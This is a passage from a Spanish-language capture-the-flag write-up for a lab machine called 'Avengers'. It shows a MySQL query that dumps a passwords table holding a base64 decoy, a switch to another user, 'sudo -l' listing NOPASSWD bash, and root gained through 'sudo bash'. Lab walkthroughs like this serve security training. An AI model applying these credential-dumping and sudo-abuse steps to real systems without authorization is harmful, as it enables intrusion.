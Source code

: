 ```bash
MySQL [no_db]> select * from passwords;
+----+--------------------------------------------------------------+----------------------------------------------------+
| id | password                                                     | description                                        |
+----+--------------------------------------------------------------+----------------------------------------------------+
|  1 | wr9UZSBjcmVlcyBxdWUgc2VyaWEgdGFuIGZhY2lsPyBKQUpBSkFKQUpKQUpB | Desencripta esa contraseña para poder ser root ;)  |
+----+--------------------------------------------------------------+----------------------------------------------------+
1 row in set (0.012 sec)

MySQL [no_db]> 

```
Parece que nos acercamos al final del reto, tenemos una cadena en `base64` que desencriptar para ser root y las claves de acceso de `stif`, `escudoamerica`.

vamos a desencriptar la clave que nos brinda.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/1.Avengers/20.png?raw=true "fake password")

bueno equisde.

## 4. Somos Root

Vamos con el usuario `stif`

```bash
hulk@TheHackersLabs-Avengers:~$ su stif
Password: 
stif@TheHackersLabs-Avengers:/home/hulk$ whoami
stif
stif@TheHackersLabs-Avengers:/home/hulk$ sudo -l
Matching Defaults entries for stif on TheHackersLabs-Avengers:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User stif may run the following commands on TheHackersLabs-Avengers:
    (ALL : ALL) NOPASSWD: /usr/bin/bash
    (ALL : ALL) NOPASSWD: /usr/bin/unzip

```
Observamos que se puede ejecutar `bash` como root, asi que..

```bash
tif@TheHackersLabs-Avengers:/home/hulk$ sudo bash
root@TheHackersLabs-Avengers:/home/hulk# whoami
root
root@TheHackersLabs-Avengers:/home/hulk# 
```
